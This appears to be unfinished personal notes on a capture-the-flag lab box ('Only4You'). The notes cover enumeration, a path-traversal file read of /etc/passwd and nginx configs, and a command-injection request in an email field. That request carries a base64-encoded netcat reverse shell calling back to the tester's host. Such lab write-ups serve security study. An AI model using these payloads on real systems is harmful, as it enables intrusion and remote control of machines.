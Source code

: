 # Only For  You usrer8788 Notes

Pre-Req
> Connect to the Seasonal VPN
> IP = 10.129.70.214                                                                              
┌──(toor㉿kali)-[~/OnlyForYou]
└─$ sudo openvpn ~/Downloads/competitive_DefenceLogic.ovpn 


## Enumeration Phase

### Nmap Scan 

NmaFrom our nmap scan we can see a webpage
_http-title: Did not follow redirect to http://only4you.htb/


Add this to the /etc/hosts file
> 10.129.70.214 only4you.htb

Viewing the Services page, we find an inactive subdomain
https://beta.only4you.htb/
    add this to our /etc/hosts and see what we get...
> 10.129.70.214 only4you.htb beta.only4you.htb 

### Subdomain enum

http://beta.only4you.htb/ gives us a link to download their source code 
[BurpSuite??]http://beta.only4you.htb/resize gives us the ability to **upload images**
[BurpSuite??]http://beta.only4you.htb/convert gives us the ability to **upload images**

### Source Code Enum

> Looking at the source code, we can see that the download function of app.py is vulnerable
'''
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
> Path traversal workaround needed
  **if '..' in filename or filename.startswith('../'):**
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
'''
> Since this application uses flask, there is a vuln that allows us to look for any file as long as we know the full path.



### BurpSuite 

#### LFI Manual part 1 
1. Go to /resize and upload an image
2. Open BurpSuite and turn on FoxyProxy (Burp)
3. Set Intercept to On
4. Once we are on the /list page, download any file.
5. Capture the request and send to repeater  (Ctrl + R)
6. Change the *image* to /etc/passwd

'''
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
**neo4j:x:997:997::/var/lib/neo4j:/bin/bash**
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
'''



#### LFI via ffuf manual (Without Burp Pro)
> We are looking for an nginx config file as seclists did not give us much
> The things we need are as followed
[x] a config file ( we have that nginx )
[] Default creds 
[] A user that would take those default creds 


Using ChatGPT, create a simple payload list for the defualt nginx files:
Q: give it in a .txt code block so I can copy it into a wordlist for fuzzing aswell as the full path. Also ndo not include your notes after the file

A: 
'''
/etc/nginx/nginx.conf
/etc/nginx/fastcgi_params
/etc/nginx/mime.types
/etc/nginx/sites-available/default
/etc/nginx/sites-enabled/default
/etc/nginx/proxy_params
/etc/nginx/ssl_params
/etc/nginx/uwsgi_params
/etc/nginx/scgi_params
/etc/nginx/koi-utf
'''

Use the intruder and sniper with that payload to perform the attack
Once the attack is finsihed, look through you results.

Looking at the sites-available, we have found the root location of the web application:
'''
	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
'''

Now that we have the root folder for the web application, we can now grab the app.py file with the repeater tab we used earlier.









Content-Length: 168

email=test@google.com;echo%20cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjI1IDkwMDEgPi90bXAvZg==|base64%20-d|bash&subject=ss&message=ss


┌──(toor㉿kali)-[~/OnlyForYou]
└─$ nc -lvnp 9001  
listening on [any] 9001 ...
connect to [10.10.14.25] from (UNKNOWN) [10.129.70.214] 35562
sh: 0: can't access tty; job control turned off
$ 
$ 
$ whoami
www-data
$ 

Now that we have access, we will need to go back to the etc./passwd file to notice the user neo4j is of interest

**neo4j:x:997:997::/var/lib/neo4j:/bin/bash**

> neo4j  | HTTP | 7474 |  server.http.listen_address
>        | Bolt | 7687 |  server.bolt.listen.address


